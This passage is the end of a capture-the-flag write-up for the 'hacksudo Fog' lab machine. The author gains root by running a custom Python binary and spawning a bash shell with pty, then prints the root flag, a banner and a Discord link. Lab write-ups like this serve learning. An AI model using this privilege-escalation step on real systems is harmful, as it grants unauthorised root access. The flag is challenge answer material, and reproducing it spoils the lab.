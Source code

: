 `fog` binary looks interesting. It looks like a custom build of python. We'll use 
this as a means of privilege escalation by spawning a shell:

{% highlight terminal %}
isro@hacksudo:~/fog$ ./fog 
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty
>>> pty.spawn("/bin/bash")
┌──(root💀hacksudo)-[~/fog]
└─#
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
┌──(root💀hacksudo)-[/root]
└─# cat root.txt 
         .                                                      .
        .n                   .                 .                  n.
  .   .dP                  dP                   9b                 9b.    .
 4    qXb         .       dX                     Xb       .        dXp     t
dX.    9Xb      .dXb    __                         __    dXb.     dXP     .Xb
9XXb._       _.dXXXXb dXXXXbo.                 .odXXXXb dXXXXb._       _.dXXP
 9XXXXXXXXXXXXXXXXXXXVXXXXXXXXOo.           .oOXXXXXXXXVXXXXXXXXXXXXXXXXXXXP
  `9XXXXXXXXXXXXXXXXXXXXX'~   ~`OOO8b   d8OOO'~   ~`XXXXXXXXXXXXXXXXXXXXXP'
    `9XXXXXXXXXXXP' `9XX'   DIE    `98v8P'  HUMAN   `XXP' `9XXXXXXXXXXXP'
        ~~~~~~~       9X.          .db|db.          .XP       ~~~~~~~
                        )b.  .dbo.dP'`v'`9b.od
b.  .dX(
                      ,dXXXXXXXXXXXb     dXXXXXXXXXXXb.
                     dXXXXXXXXXXXP'   .   `9XXXXXXXXXXXb
                    dXXXXXXXXXXXXb   d|b   dXXXXXXXXXXXXb
                    9XXb'   `XXXXXb.dX|Xb.dXXXXX'   `dXXP
                     `'      9XXXXXX(   )XXXXXXP      `'
                              XXXX X.`v'.X XXXX
                              XP^X'`b   d'`X^XX
                              X. 9  `   '  P )X
                              `b  `       '  d'
                               `             '
great you rooted hacksudo Fog Box !!!
flag {4356a779ce18252fa1dd2d2b6ab56b19}
submit this flag at hacksudo discord https://discord.gg/vK4NRYt3
{% endhighlight %}
